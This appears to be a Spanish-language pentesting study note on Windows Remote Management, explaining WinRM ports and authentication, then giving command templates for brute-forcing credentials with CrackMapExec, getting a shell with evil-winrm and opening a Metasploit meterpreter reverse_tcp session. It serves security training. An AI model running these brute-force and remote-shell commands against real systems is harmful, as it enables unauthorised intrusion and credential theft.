

# Windows Remote Management (WinRM)

WinRM es un protocolo de administración remota de Windows a través de HTTP(S). Microsoft implementó WinRM en Windows para facilitar el trabajo de los administradores de sistemas.

Se utiliza normalmente para:

- Acceder de forma remota e interactuar con equipos Windows en una red local.
- Acceder de forma remota y ejecutar comandos en sistemas Windows.
- Administrar y configurar sistemas Windows de forma remota.

Normalmente utiliza los puertos TCP 5985 y 5986 (HTTPS). 

WinRM implementa control de acceso y seguridad para la comunicación entre sistemas mediante diversas formas de autenticación:

- usuario:contraseña
- usuario:hash
- kerberos
- NTLM
- Otras formas

Podemos usar `CrackMapExec` para obtener usuarios y contraseñas mediante fuerza bruta y un script llamado `evil-winrm` para obtener una shell remota.

## Enumeración

El escaneo por defecto de `nmap` solo analiza los 1000 puertos más comunes y no incluye los específicos de WinRM, así que será necesario analizar los puertos por defecto, un rango más amplio o incluso el rango completo de puertos para encontrar esta utilidad.



## Explotación

**Obtención de credenciales con `CrackMapExec`**

`CrackMapExec` es una herramienta de seguridad ofensiva utilizada para la evaluación y auditoría de redes Windows y entornos Active Directory. Su función principal es automatizar la interacción con sistemas remotos que usan protocolos como SMB, WinRM, MSSQL o SSH.

Para realizar un ataque de fuerza bruta:

```bash
crackmapexec <protocolo> <IP> -u <usr/usr_file> -p <pass_file>
```

Para ejecutar comandos de forma remota:

```bash
crackmapexec <protocolo> <IP> -u <usr> -p <pass> -x <"comando">
```

**Obtención de una shell con `evil-winrm`**

Su propósito principal es facilitar la conexión y administración remota de un sistema Windows cuando se dispone de credenciales válidas, simulando el comportamiento de un administrador remoto.

```bash
evil-winrm.rb -u <usr> -p <pass> -i <IP>
```

**Obtención de una sesión meterpreter con MSF**

```bash
msf > use exploit/windows/winrm/winrm_script_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/winrm/winrm_script_exec) > set rhosts <IP>
msf exploit(windows/winrm/winrm_script_exec) > set force_vbs true
msf exploit(windows/winrm/winrm_script_exec) > set username <usr>
msf exploit(windows/winrm/winrm_script_exec) > set password <pass>
msf exploit(windows/winrm/winrm_script_exec) > exploit
```

> Nota: `force_vbs` indica que el payload o la ejecución remota debe forzarse a través de un script en Visual Basic Script (VBS) en lugar de otros métodos (PowerShell o CMD). Cuando se activa esta opción, el sistema objetivo ejecuta un script VBS como stager.

[⟵ Anterior](../05_sistema.md#explotación-windows)
